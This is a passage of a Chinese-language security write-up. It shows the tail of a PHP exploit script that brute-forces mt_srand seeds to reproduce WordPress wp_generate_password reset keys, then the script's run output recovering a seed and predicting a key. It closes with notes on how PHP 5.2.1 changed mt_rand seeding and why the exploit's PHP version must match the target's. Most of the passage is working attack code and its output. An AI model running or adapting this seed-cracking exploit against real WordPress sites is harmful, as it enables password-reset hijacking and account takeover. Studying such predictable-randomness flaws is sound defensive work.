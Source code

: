 ```
} 

function getseed($resetkey) {
	$max = pow(2,(32-BUGGY));
	for($x=0;$x<=$max;$x++) {
		$seed = BUGGY ? ($x << 1) + 1 : $x; 
		mt_srand($seed);
		$testkey = wp_generate_password(20,false);
		if($testkey==$resetkey) { echo "o\n"; return $seed; }

		if(!($x % 10000)) echo $x / 10000;
	}
	echo "\n";
	return false;
}
?>
```

运行结果如下：

```
php5>php rand.php
M8pzpjwCrvVt3oobAaOr
0123456789101112131415161718192021222324252627282930313233343536373839404142434
445464748495051525354555657585960616263646566676869
7071727374757677787980818283848586878889909192939495969798991001011021031041051
061071081091101111121131141151161171181191201211221
2312412512612712812913013113213313413513613713813914014114214314414514614714814
915015115215315415515615715815916016116216316416516
6167168169170171172173174175176177178179180181182183184185186187188189190191192
193194195196197198199200201202203204205206207208209
2102112122132142152162172182192202212222232242252262272282292302312322332342352
362372382392402412422432442452462472482492502512522
..............01062110622106231062410625106261062710628106291063010631106321063
3o
70693
pjwCrvVt3oobAaOr
```

当10634次时候我们得到了结果。

当PHP版本到了5.2.1后，通过修改算法修补了奇数和偶数的播种相等的问题，这样也导致了php5.2.0前后导致同一个播种后的mt_rand()的值不一样。比如：

```
<?php
mt_srand(42);
echo mt_rand();
//php<=5.20 1387371436
//php>5.20 1354439493 		
?>
```

正是这个原因，也要求了我们的exp的运行环境：当目标>5.20时候，我们exp运行的环境也要是>5.20的版本，反过来也是一样。
